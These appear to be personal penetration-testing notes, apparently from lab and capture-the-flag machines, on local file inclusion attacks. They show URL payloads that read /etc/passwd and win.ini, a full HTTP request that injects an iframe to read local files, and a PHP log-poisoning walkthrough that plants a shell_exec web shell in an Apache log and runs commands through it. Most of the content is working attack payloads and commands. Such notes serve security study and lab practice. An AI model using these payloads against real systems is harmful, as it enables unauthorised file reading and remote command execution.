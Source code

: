 ### Simple LFI
If an input is accepted on a URL parameter we can try to access any system file and check if whether or not it retrieves the file:
```bash
http://10.11.1.35/section.php?page=/etc/passwd
http://10.11.1.35/section.php?page=C:\Windows\win.ini
```
Examples:
[[pain - 10.11.1.35#^003497]]

### iframe LFI < img src=///etc/passwd >
If we get an entry with a frame we can try to execute such a payload that it is possible to read files on the machine:
```bash
POST /api/order HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dev.stocker.htb/stock
Content-Type: application/json
Origin: http://dev.stocker.htb
Content-Length: 199
Connection: close
Cookie: connect.sid=s%3AyGd29rDOOta_oSwfj5BOgTjQThwvLm0v.1A9F%2BB%2FN8%2FuDhxgwLoT2Uj1rAHgU60MB5c2irg%2F3Vpk

{"basket":[{"_id":"638f116eeb060210cbd83a20","title":"<iframe src=file:///etc/passwd height=1000px width=800px></iframe>","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```
Examples:
[[Stocker#^ab97bc]]

### PHP Log Poisoning
### Contaminating Log Files

Let's use Netcat to connect to our Windows 10 lab machine on port 80 with an interesting payload:
```
kali@kali:~$ nc -nv 10.11.0.22 80
(UNKNOWN) [10.11.0.22] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>

HTTP/1.1 400 Bad Request
```
We can view these logs by opening C:\\xampp\\apache\\logs\\access.log or by using the XAMPP Control Panel.

Our payload should be found near the end of the log file:
```
10.11.0.4 - - [30/Nov/2019:13:55:12 -0500]
"GET /css/bootstrap.min.css HTTP/1.1" 200 155758 "http://10.11.0.22/menu.php?file=\\Windows\\System32\\drivers\\etc\\hosts" "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0"
10.11.0.4 - - [30/Nov/2019:13:58:07 -0500] "GET /tacotruck.php HTTP/1.1" 200 1189 "http://10.11.0.22/menu.php?file=/" "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0"
10.11.0.4 - - [30/Nov/2019:14:01:41 -0500] ""<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>\n" 400 981 "-" "-"
```
Since our payload has been logged, we can attempt LFI execution.
Next, we'll use the LFI vulnerability to include the Apache access.log file that contains our PHP payload. We know the application is using an _include_ statement so the contents of the included file will be executed as PHP code.
We'll build a URL that includes the location of the log as well as our command to be executed (ipconfig) sent as the _cmd_ parameter's value.
```
http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```
